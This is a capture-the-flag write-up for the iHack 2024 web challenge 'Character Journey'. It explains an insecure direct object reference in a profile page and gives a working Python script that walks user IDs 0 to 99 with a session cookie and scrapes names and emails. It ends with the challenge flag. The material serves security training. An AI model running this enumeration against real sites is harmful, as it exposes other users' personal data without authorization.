


# Character Journey CTF Challenge Writeup

## Challenge Information
- **Name**: Character Journey
- **Points**: 500
- **Category**: Web
- **Objective**: Find and retrieve the flag from a web application by exploiting vulnerabilities.



## Solution
To solve the "Character Journey" challenge, follow these steps:

1. **Initial Exploration**:
   - Visit the web page and register for an account.
   - Upon registration, we observed that the application doesn't have notable functionality 
     - Feedback form does not actually send a POST request
     - YouTube link is quite useless 

2. **Investigating User Account Features**:
   - We then focused on the functionality of viewing your own account.
   - While exploring this feature, investigate the URL parameters and other user-specific data.

3. **Identifying the Vulnerability**:
   - Discover an Insecure Direct Object Reference (IDOR) vulnerability by manipulating user IDs in the URL (e.g., changing ID from 1 to 10).
   - Find that some URLs return base64 encoded text chunks.


        


        

4. **Brute Force Exploration**:
   - Develop a script to automate the process of iHack Prelim 2024 user IDs from 1 to 100.
   - Run the script to extract all base64 encoded text chunks.


      ```python
      import requests
      from bs4 import BeautifulSoup

      # Function to fetch profile information for a given userId
      def fetch_profile(user_id):
          url = f"http://character-journey.ihack24.capturextheflag.io/profile.php?userId={user_id}"
          headers = {
              "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
              "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
              "Accept-Language": "en-US,en;q=0.5",
              "Accept-Encoding": "gzip, deflate, br",
              "Connection": "close",
              "Referer": "http://character-journey.ihack24.capturextheflag.io/home.php",
              "Cookie": "PHPSESSID=be6885c0ca68d30c985be4b2fee16ebd",
              "Upgrade-Insecure-Requests": "1"
          }
          response = requests.get(url, headers=headers)
          if response.status_code == 200:
              return response.text
          else:
              print(f"Failed to fetch profile for userId: {user_id} with status code: {response.status_code}")
              return None

      # Function to parse HTML and extract username and email
      def parse_profile(html_content):
          soup = BeautifulSoup(html_content, 'html.parser')
          
          # Find <p> tags that contain the Name and Email
          name_tag = soup.find('p', text=lambda x: x and x.startswith('Name:'))
          email_tag = soup.find('p', text=lambda x: x and x.startswith('Email:'))

          if name_tag and email_tag:
              # Extract the text after "Name: " and "Email: "
              name = name_tag.get_text(strip=True).split(': ', 1)[1]
              email = email_tag.get_text(strip=True).split(': ', 1)[1]
              return name, email
          else:
              print("Could not find profile information in HTML content.")
              return None, None

      # Main function to fetch profiles for userId 0-61 and save to a file
      def main():
          with open('profiles.txt', 'w') as file:
              for user_id in range(100):
                  print(f"Fetching profile for userId: {user_id}")
                  html_content = fetch_profile(user_id)
                  if html_content:
                      name, email = parse_profile(html_content)
                      if name and email:
                          file.write(f"userId: {user_id}, Name: {name}, Email: {email}\n")
                      else:
                          file.write(f"userId: {user_id}, Profile information not found\n")
                  else:
                      file.write(f"userId: {user_id}, Failed to fetch profile\n")

      if __name__ == "__main__":
          main()
      ```

5. **Extracting the Flag**:
   - Review the extracted data from the brute force script.
   - Rather than decoding the base64 text, find the flag directly in the data without further processing.


      


      


6. **Flag**: **ihack24{655b7b7ae4c62d726a568eff8914573e}**